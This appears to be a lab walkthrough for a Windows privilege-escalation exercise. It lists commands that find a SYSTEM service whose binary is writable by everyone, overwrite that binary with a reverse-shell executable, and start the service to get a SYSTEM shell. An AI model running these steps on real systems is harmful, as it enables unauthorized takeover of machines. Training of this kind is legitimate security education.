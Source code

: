 

1. Query the "filepermsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).

```
sc qc filepermsvc
```

2. Using accesschk.exe, note that the service binary (BINARY_PATH_NAME) file is writable by everyone:

```
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

3. Copy the reverse.exe executable you created and replace the filepermservice.exe with it:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

4. Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```
net start filepermsvc
```